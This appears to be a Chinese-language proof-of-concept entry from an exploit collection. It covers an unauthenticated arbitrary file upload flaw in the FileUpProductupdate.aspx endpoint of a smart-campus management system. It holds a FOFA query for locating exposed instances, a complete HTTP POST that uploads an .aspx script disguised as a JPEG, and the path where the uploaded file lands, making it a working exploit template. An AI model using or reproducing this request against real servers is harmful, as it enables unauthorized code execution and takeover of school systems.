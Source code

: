 ## 智慧校园(安校易)管理系统FileUpProductupdate.aspx任意文件上传漏洞

智慧校园(安校易)管理系统 FileUpProductupdate.aspx 接口处存在任意文件上传漏洞，未经身份验证的攻击者通过漏洞上传恶意后门文件，执行任意代码，从而获取到服务器权限。

## fofa

```
title="智慧综合管理平台登入"
```



## poc

```
POST /Module/FileUpPage/FileUpProductupdate.aspx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2,
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----21909179191068471382830692394
Connection: close
 
------21909179191068471382830692394
Content-Disposition: form-data; name="Filedata"; filename="qaz.aspx"
Content-Type: image/jpeg
 
<%@Page Language="C#"%><%Response.Write("hello");System.IO.File.Delete(Request.PhysicalPath);%>
------21909179191068471382830692394--
```

![image-20240524230505271](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242305328.png)



文件路径

```
/Upload/Publish/000000/0_0_0_0/update.aspx
```


